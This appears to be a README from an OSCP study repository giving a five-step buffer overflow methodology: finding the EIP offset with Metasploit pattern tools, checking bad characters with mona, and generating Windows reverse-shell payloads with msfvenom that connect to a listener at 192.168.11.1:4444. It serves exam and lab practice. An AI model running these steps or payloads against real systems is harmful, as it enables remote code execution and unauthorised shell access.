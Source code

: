 # BoF4OSCP

## 1st step

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address
Take the EIP address that looks EIP 386F...

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset
run python3 eipOverwrite.py
check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding bad chars

python3 findingBadchars.py
right click on ESP, follow in dump
```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create an encoded one if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
edit finalBuff
setup a listener
python3 finalbuff
```
